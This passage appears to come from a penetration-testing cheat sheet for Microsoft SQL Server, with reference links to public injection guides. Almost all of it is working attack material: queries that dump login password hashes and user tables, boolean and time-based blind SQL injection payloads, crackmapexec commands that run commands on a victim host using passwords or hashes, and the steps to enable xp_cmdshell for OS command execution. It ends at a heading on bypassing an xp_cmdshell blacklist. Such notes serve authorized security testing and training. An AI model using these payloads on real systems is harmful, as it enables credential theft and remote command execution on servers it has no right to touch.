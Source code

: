 ```sql

-- getting column names from a specific table:
select column_name from somedatabase.information_schema.columns where table_name='sometable';

-- get credentials for 'sa' login user:
select name,master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins;

-- get credentials from offsec database (using 'dbo' table schema) user table
select * from offsec.dbo.users;

-- error/boolean-based blind injection
' AND LEN((SELECT TOP 1 username FROM dbo.users))=5; -- #

-- time-based blind injection
' WAITFOR DELAY '0:0:3'; -- #
```

References:
- [PentestMonkey MSSQL Injection Cheat Sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
- [PayloadsAllTheThings - MSSQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md)
- [HackTricks - Pentesting MSSQL](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)


### 2.15.3 MSSQL Command Execution

Simple command execution:

```bash
# Username + Password + CMD command
crackmapexec mssql -d DOMAIN -u USERNAME -p PASSWORD -x "whoami" $VICTIM_IP
# Username + Hash + PS command
crackmapexec mssql -d DOMAIN -u USERNAME -H HASH -X '$PSVersionTable' $VICTIM_IP
```

Using interactive session:

```sql
-- Check if you have server admin rights to enable command execution:
-- Returns 1 if admin
select is_srvrolemember('sysadmin');
go

-- Check if already enabled
-- check if xp_cmdshell is enabled
select convert(int, isnull(value, value_in_use)) as cmdshell_enabled from sys.configurations where name = n'xp_cmdshell';
go

-- turn on advanced options; needed to configure xp_cmdshell
exec sp_configure 'show advanced options', 1;reconfigure;
go

-- enable xp_cmdshell
exec sp_configure 'xp_cmdshell', 1;RECONFIGURE;
go

-- Quickly check what the service account is via xp_cmdshell
EXEC xp_cmdshell 'whoami';
go
-- can be shortened to just: xp_cmdshell 'whoami.exe';
-- long form: EXEC master..xp_cmdshell 'dir *.exe'

-- Bypass blackisted "EXEC xp_cmdshell"
```